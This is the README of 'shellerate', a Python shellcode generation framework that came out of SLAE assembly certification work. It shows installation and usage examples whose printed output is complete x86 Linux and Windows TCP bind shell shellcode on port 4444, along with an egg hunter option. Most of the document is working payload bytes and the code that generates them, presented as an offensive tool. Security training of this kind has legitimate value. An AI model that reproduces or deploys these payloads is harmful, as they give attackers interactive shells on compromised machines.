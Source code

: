 # Shellerate

## Introduction

This the Changelog file for the shellerate project. 'shellerate' is pun between
'shell' and 'scellerato', the Italian word for 'wicked'.

'shellerate' is a shellcode generation framework born from the assignments I
took for the SecurityTube Linux Assembly Expert certification process.

You can feature custom encoders, custom crypters, polymorphism and all stuff I
learned in the SLAE certification process.

shellerate is Python3 package and supported architectures and operating system
are limited to:

* x86/Linux
* x86/Win

Of course other architectures and operating systems will be added in the future.

## Installation

To install shellerate to your system you can issue the following command:

> pip install shellerate

## Available payloads

### TCP Bind shell shellcode

This shellcode will bind on a given port, waiting for clients and spawn a shell
on the incoming connection.

#### Platform

At the moment, this shellcode is available only for x86/Linux platform.

#### Features

| Feature | Supported |
|---------|-----------|
| Encoding | Yes |
| Crypter | No |
| Egg Hunter | Yes |

#### Usage

Basic usage:

```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'linux')
b.generate()
print("Shellcode: %s" % b.shellcode())
'\\x31\\xc0\\x89\\xc3\\x89\\xc1\\x89\\xc2\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc3\\x31\\xc0\\x66\\xb8\\x69\\x01\\x31\\xc9\\x51\\x66\\x68\\x11\\x5c\\x66\\x6a\\x02\\x89\\xe1\\xb2\\x10\\xcd\\x80\\x31\\xc9\\x31\\xc0\\x66\\xb8\\x6b\\x01\\xcd\\x80\\x31\\xc0\\x66\\xb8\\x6c\\x01\\x51\\x89\\xce\\x89\\xe1\\x89\\xe2\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\x31\\xc0\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80'
```

If you want to create a bind shell shellcode for windows x86, you can call this
way:
```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'win')
b.generate()
print("Shellcode: %s" % b.shellcode())
'\\xfc\\xe8\\x82\\x00\\x00\\x00\\x60\\x89\\xe5\\x31\\xc0\\x64\\x8b\\x50\\x30\\x8b\\x52\\x0c\\x8b\\x52\\x14\\x8b\\x72\\x28\\x0f\\xb7\\x4a\\x26\\x31\\xff\\xac\\x3c\\x61\\x7c\\x02\\x2c\\x20\\xc1\\xcf\\x0d\\x01\\xc7\\xe2\\xf2\\x52\\x57\\x8b\\x52\\x10\\x8b\\x4a\\x3c\\x8b\\x4c\\x11\\x78\\xe3\\x48\\x01\\xd1\\x51\\x8b\\x59\\x20\\x01\\xd3\\x8b\\x49\\x18\\xe3\\x3a\\x49\\x8b\\x34\\x8b\\x01\\xd6\\x31\\xff\\xac\\xc1\\xcf\\x0d\\x01\\xc7\\x38\\xe0\\x75\\xf6\\x03\\x7d\\xf8\\x3b\\x7d\\x24\\x75\\xe4\\x58\\x8b\\x58\\x24\\x01\\xd3\\x66\\x8b\\x0c\\x4b\\x8b\\x58\\x1c\\x01\\xd3\\x8b\\x04\\x8b\\x01\\xd0\\x89\\x44\\x24\\x24\\x5b\\x5b\\x61\\x59\\x5a\\x51\\xff\\xe0\\x5f\\x5f\\x5a\\x8b\\x12\\xeb\\x8d\\x5d\\x68\\x33\\x32\\x00\\x00\\x68\\x77\\x73\\x32\\x5f\\x54\\x68\\x4c\\x77\\x26\\x07\\xff\\xd5\\xb8\\x90\\x01\\x00\\x00\\x29\\xc4\\x54\\x50\\x68\\x29\\x80\\x6b\\x00\\xff\\xd5\\x6a\\x08\\x59\\x50\\xe2\\xfd\\x40\\x50\\x40\\x50\\x68\\xea\\x0f\\xdf\\xe0\\xff\\xd5\\x97\\x68\\x02\\x00\\x11\\x5c\\x89\\xe6\\x6a\\x10\\x56\\x57\\x68\\xc2\\xdb\\x37\\x67\\xff\\xd5\\x57\\x68\\xb7\\xe9\\x38\\xff\\xff\\xd5\\x57\\x68\\x74\\xec\\x3b\\xe1\\xff\\xd5\\x57\\x97\\x68\\x75\\x6e\\x4d\\x61\\xff\\xd5\\x68\\x63\\x6d\\x64\\x00\\x89\\xe3\\x57\\x57\\x57\\x31\\xf6\\x6a\\x12\\x59\\x56\\xe2\\xfd\\x66\\xc7\\x44\\x24\\x3c\\x01\\x01\\x8d\\x44\\x24\\x10\\xc6\\x00\\x44\\x54\\x50\\x56\\x56\\x56\\x46\\x56\\x4e\\x56\\x56\\x53\\x56\\x68\\x79\\xcc\\x3f\\x86\\xff\\xd5\\x89\\xe0\\x4e\\x56\\x46\\xff\\x30\\x68\\x08\\x87\\x1d\\x60\\xff\\xd5\\xbb\\xf0\\xb5\\xa2\\x56\\x68\\xa6\\x95\\xbd\\x9d\\xff\\xd5\\x3c\\x06\\x7c\\x0a\\x80\\xfb\\xe0\\x75\\x05\\xbb\\x47\\x13\\x72\\x6f\\x6a\\x00\\x53\\xff\\xd5'
``` 


Usage with egg hunter

```python
from shellerate.bind_shellcode import *
b=BindShellcode(4444, 'x86', 'linux')
b.egg_hunter()
b.generate()
sc = b.shellcode()

print("Egg Hunter: %s" % sc["egg_hunter_code"])
print("Shellcode: %s" % sc["egg_hunter_shellcode"])
```
